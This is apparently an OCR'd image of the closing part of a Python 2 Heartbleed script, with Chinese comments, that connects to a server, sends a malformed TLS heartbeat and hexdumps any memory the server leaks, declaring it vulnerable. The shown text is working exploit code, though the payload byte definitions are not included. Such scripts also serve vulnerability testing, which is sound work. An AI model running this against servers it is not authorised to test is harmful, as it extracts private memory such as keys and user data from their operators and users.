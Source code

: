 ```python

  def hit_hb(s):
      s.send(hb)
      while True:
          typ, ver, pay = recvmsg(s)
          if typ is None:
              print 'No heartbeat response received, server likely not vulnerable'
              return False

          if typ == 24:
              print 'Received heartbeat response:'
              hexdump(pay)
              if len(pay) > 3:
                  print 'WARNING: server returned more data than it should - server is vulnerable!'
              else:
                  print 'Server processed malformed heartbeat, but did not return any extra data.'
              return True

          if typ == 21:
              print 'Received alert:'
              hexdump(pay)
              print 'Server returned error, likely not vulnerable'
              return False


  def main():
      opts, args = options.parse_args()  # 解析参数（IP和端口）
      if len(args) < 1:
          options.print_help()
          return

      s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      print 'Connecting...'
      sys.stdout.flush()  # 刷新输出
      s.connect((args[0], opts.port))
      print 'Sending Client Hello...'
      sys.stdout.flush()
      s.send(hello)  # 发送ClientHello请求
      print 'Waiting for Server Hello...'
      sys.stdout.flush()
      while True:
          typ, ver, pay = recvmsg(s)
          if typ == None:
              print 'Server closed connection without sending Server Hello.'
              return
          # Look for server hello done message.
          if typ == 22 and ord(pay[0]) == 0x0E:
              break

      print 'Sending heartbeat request...'
      sys.stdout.flush()
      s.send(hb)  # 发送心跳包
      hit_hb(s)  # 检测心血漏洞


  if __name__ == '__main__':
      main()
```
